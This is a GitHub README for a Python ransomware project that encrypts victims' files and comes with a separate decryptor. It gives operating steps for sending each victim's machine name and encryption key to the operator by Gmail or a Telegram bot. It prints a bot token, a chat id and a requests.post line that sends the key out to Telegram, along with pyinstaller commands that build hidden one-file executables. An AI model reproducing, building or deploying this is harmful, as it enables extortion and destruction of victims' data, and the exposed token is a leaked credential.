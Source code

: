 # Python Ransomware
Simple Ransomware using Python PyQt5 and Cryptography libraries.
You can make the design you want using the design files.

## Screenshot

![](encrypt_screenshot.png)
![](decrypt_screenshot.png)

## Video
[![](https://www.youtube.com/v=wGwfdWkOal4)]
[![python instagram bot](https://img.youtube.com/vi/wGwfdWkOal4/0.jpg)](https://www.youtube.com/watch?v=wGwfdWkOal4)

## Getting Started

# Requirements
certifi==2021.5.30
cffi==1.14.6
charset-normalizer==2.0.6
cryptography==35.0.0
idna==3.2
pycparser==2.20
PyQt5==5.15.4
PyQt5-Qt5==5.15.2
PyQt5-sip==12.9.0
requests==2.26.0
urllib3==1.26.7

### Operating Instructions

#### 1) Send Email
to be able to send an email<br/>

>1)open your gmail account<br/>
>2)https://myaccount.google.com/ click<br/>
>3)Activate "Less secure app access"<br/>
example:
[![](https://www.youtube.com/watch?v=FVi-m1qmJD0)]

#### 2) Send Telegram (api) Message
Telegram api    (https://core.telegram.org/bots/api)<br/>

>1)open telegram<br/>
>2)search BotFather<br/>
>3)/newbot<br/>
>4)Choose a username for your bot (ransom0wareusername_bot)<br/>

    Use this token to access the HTTP API:
    3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg

Chat Id<br/>

>1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
        "id": 3213112048, your chat_id

    Send Message Example:

        requests.post("https://api.telegram.org/bot3416572059:AAGB7p9WAe0jWamE89ftR02MR2WgbxlLZEg/sendMessage",
                data={"chat_id": "3213112048", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

# Setup
After making the necessary settings.
```sh
$ cd Encrypt
$ pyinstaller encrpt.py --onefile --windowed
$ cd Decrypt
$ pyinstaller decrpt.py --onefile --windowed
```

# Installation

```sh
$ git clone https://github.com/alii76tt/python_ransomware
$ cd python_ransomware
$ pip install -r requirements.txt
$ cd Encrypt
$ python3 encrypt.py
$ cd Decrypt
$ python3 decrypt.py
```
